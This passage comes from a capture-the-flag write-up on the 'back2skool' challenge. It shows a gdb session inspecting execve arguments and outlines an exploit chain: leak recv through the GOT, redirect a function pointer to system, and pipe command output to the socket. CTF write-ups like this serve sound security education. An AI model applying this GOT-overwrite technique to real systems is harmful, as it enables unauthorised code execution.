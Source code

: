 We successfully **called execve**!

## Parameters to execve
We are able to run `execve` but we don't control the parameters ... yet. Let's see with what parameters `execve` is called.

	$ gdb ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
	[...]
	Reading symbols from /root/back2skool-3fbcd46db37c50ad52675294f5667909d1f...(no debugging symbols found)...done.
	(gdb) set follow-fork-mode child 
	(gdb) catch syscall execve 
	Catchpoint 1 (syscall 'execve' [11])
	(gdb) r
	[...]
	Catchpoint 1 (call to syscall 'execve'), 0xb7fe2424 in __kernel_vsyscall ()
	(gdb) info registers 
	eax            0xffffffda	-38
	ecx            0xbffff3b4	-1073744972
	edx            0xbffff5ac	-1073744468
	ebx            0xb7fa5a5a	-1208329638
	[...]
	(gdb) x/s $ebx
	0xb7fa5a5a:	 "/bin/sh"
	(gdb) x/5x $ecx
	0xbffff3b4:	0xb7fa5a5f	0xb7fa5a57	0x0804c040	0x00000000
	0xbffff3c4:	0xb7ead180
	(gdb) x/s ((char **)$ecx)[0]
	0xb7fa5a5f:	 "sh"
	(gdb) x/s ((char **)$ecx)[1]
	0xb7fa5a57:	 "-c"
	(gdb) x/s ((char **)$ecx)[2]
	0x804c040 <values>:	 ""
	(gdb) 

Because we're using `system` function the first parameters are set accordingly (`sh -c`) but the actual command (`(char **)$ecx)[2]`) is empty. You can have a look at `execve` syscall [parameters](http://www.kernel.org/doc/man-pages/online/pages/man2/execve.2.html) and the [calling convention](http://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-on-x86-64) for it. Here we're very **lucky**, the command that is passed to system is our buffer with values, the initial table. Let's recap our approach:
* get the address of `recv` function via GOT
* set the pointer of `math` function to `system` by adding an offset to `recv` function address
* set the parameters in the workspace table
* trigger the exploit by using the `math` function
* profit

## Getting some output
The only problem was that the communication socket was number 4 and the output went to file descriptor 1, but running the command with `>&4 2>&4` appended, did the trick for us.


[original binary]: res/back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f "Vulnerable binary"
[Ghost in the Shellcode]: http://ghostintheshellcode.com/ "Ghost in the Shellcode CTF"